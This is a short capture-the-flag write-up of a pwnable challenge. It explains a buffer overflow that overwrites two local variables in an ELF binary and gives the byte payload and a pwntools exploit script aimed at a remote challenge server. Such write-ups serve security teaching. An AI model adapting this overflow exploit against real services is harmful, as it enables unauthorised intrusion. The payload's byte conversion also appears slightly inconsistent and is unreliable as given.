


# Pwnable - Challenge 04

This challenge was an elf file.

Flag was stored on server.

Binary was receive an any user input, and return "Yes, my wishes ( c0ffee, cafe) come true".

i try to send a lot of "A" charactor to observe behavior of binary.



As aspect. When i send a lot of charactor it's was replace value of `0xc0ffee` and `0xcafe`

Charactor "A" was 41 in Hex



Decompile binary with ghida, and found that we need to replace variable local_c and local 10 to `0xbe91ce` and `0xf3eebee3`

Break payload into \x format

```
\xbe\x91\xce\xf3\xee\xbe\xe3
```

And reverse an order of payload

```
\xe3\xbe\xee\xf3\xce\x91\xbe
```

Create an exploit with [pwntools](https://github.com/Gallopsled/pwntools)

```
from pwn import *

io = remote('43.229.151.195', 57794)

io.recvuntil("\n")
io.recvuntil("? ")
# \xbe\x2e\xce
# \xf3\xee\xbe\xe3

io.sendline(b'AAAAAAAAAAAAAAAAAAAAAAAa\xe3\xbe\xee\xf3\xce\x91\xbe')
io.recvline()
io.recvline()
```

```
python3 exploit.py DEBUG
```


